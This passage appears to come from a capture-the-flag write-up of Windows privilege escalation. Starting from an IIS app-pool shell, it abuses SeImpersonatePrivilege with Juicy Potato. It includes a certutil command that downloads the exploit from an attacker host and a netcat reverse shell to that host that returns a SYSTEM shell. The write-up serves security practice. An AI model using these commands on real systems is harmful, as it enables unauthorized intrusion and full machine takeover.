 Our IIS user has `SeImpersonatePrivilege` so we can probably do Rotten Potato.

```
c:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

I used Juicy Potato from Decoder.

```
c:\windows\system32\inetsrv>cd \users\public 
cd \users\public

c:\Users\Public>cmd /c certutil.exe -urlcache -split -f http://10.10.14.23:73/JuicyPotato.exe JuicyPotato.exe

10/10/2018  02:40 AM    <DIR>          .
10/10/2018  02:40 AM    <DIR>          ..
06/25/2018  03:51 PM    <DIR>          Documents
07/03/2018  10:25 PM    <DIR>          Downloads
10/10/2018  02:40 AM           347,648 JuicyPotato.exe
07/16/2016  02:23 PM    <DIR>          Music
07/16/2016  02:23 PM    <DIR>          Pictures
07/16/2016  02:23 PM    <DIR>          Videos
```

Execute it, spawning yet another netcat:

```
c:\Users\Public>JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\shortcuts\nc.exe -e cmd.exe 10.10.14.23 73" -t *
JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\shortcuts\nc.exe -e cmd.exe 10.10.14.23 73" -t *                                                                                
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
